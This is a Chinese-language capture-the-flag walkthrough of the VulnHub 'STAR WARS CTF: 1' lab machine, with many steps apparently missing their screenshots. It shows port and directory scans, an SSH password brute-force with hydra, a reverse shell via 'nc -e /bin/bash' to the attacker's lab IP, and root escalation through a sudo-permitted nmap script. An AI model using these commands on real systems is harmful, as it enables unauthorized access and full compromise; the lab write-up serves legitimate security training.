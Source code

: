 # 原创
：  VulnHub渗透测试实战靶场 - STAR WARS CTF: 1

# VulnHub渗透测试实战靶场 - STAR WARS CTF: 1

#### VulnHub渗透测试实战靶场 - STAR WARS CTF: 1

## 题目描述

```
Star Wars themed CTF for beginners

This works better with VirtualBox rather than VMware

```

## 环境下载

> 



## NULLY CYBERSECURITY: 1靶机搭建

> 

- 将下载好的靶机环境，导入 VritualBox，设置为 Host-Only 模式- 将 VMware 中桥接模式网卡设置为 VritualBox 的 Host-only


> 



## 渗透测试

### 信息搜集

> 
用 Nmap 扫描一下目标靶机的端口信息：`sudo nmap -sS -A -Pn 192.168.56.111`，发现开放了 `22、80` 两个端口


> 
用 dirb 扫描一下 80 端口 web 目录：`dirb http://192.168.56.111`


### 漏洞挖掘

> 



```
Why does the Jedi Order keep checking the robots.txt file.
Might take a look at /r2d2
He is the real OG. 

```

> 



> 



> 



> 



### getshell

> 



### 提权

> 



> 



```
cewl http://192.168.56.111/r2d2 &gt; pass.txt

```

> 



```
hydra -l skywalker -P pass.txt -f -V 192.168.56.111 ssh

```

> 



> 



```
import os 
os.system("nc -e /bin/bash 192.168.56.102 1234")

```

> 



```
SHELL=/bin/bash script -q /dev/null

```

> 



```
echo "os.execute('/bin/sh')" &gt; /tmp/root.nse
sudo /usr/bin/nmap --script=/tmp/root.nse

```
